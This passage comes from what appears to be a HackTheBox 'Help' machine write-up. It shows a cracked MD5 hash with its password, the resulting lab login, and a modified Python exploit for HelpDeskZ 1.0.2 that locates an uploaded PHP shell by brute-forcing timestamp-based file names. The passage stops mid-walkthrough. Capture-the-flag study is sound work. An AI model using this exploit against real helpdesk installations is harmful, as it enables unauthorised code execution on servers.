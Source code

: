 ![](/images/hackthebox/help/15.png)
#### I used [crackstation](https://crackstation.net/) to crack the hash and got this password : 
`5d3c93182bb20f07b994a7f617e99cff` : `godhelpmeplz`
#### Now we have the credentials : `helpme@helpme.com : godhelpmeplz`
<br>
<hr>
### File Upload Exploitation, Reverse Shell and User Flag
#### I edited the path of the uploads in the exploit, instead of `helpdeskzBaseUrl+md5hash+'.php'` I made it `helpdeskzBaseUrl+'/uploads/tickets/'+md5hash+'.php'` (I got this path from the [github repository](https://github.com/evolutionscript/HelpDeskZ-1.0)). Exploit after edits :
```
import hashlib
import time
import sys
import requests

print 'Helpdeskz v1.0.2 - Unauthenticated shell upload exploit'

if len(sys.argv) < 3:
    print "Usage: {} [baseUrl] [nameOfUploadedFile]".format(sys.argv[0])
    sys.exit(1)

helpdeskzBaseUrl = sys.argv[1]
fileName = sys.argv[2]

currentTime = int(time.time())

for x in range(0, 300):
    plaintext = fileName + str(currentTime - x)
    md5hash = hashlib.md5(plaintext).hexdigest()

    url = helpdeskzBaseUrl+'/uploads/tickets/'+md5hash+'.php'
    response = requests.head(url)
    if response.status_code == 200:
        print "found!"
        print url
        sys.exit(0)

print "Sorry, I did not find anything"
```
#### I went to the settings and changed the timezone to the same timezone as mine :
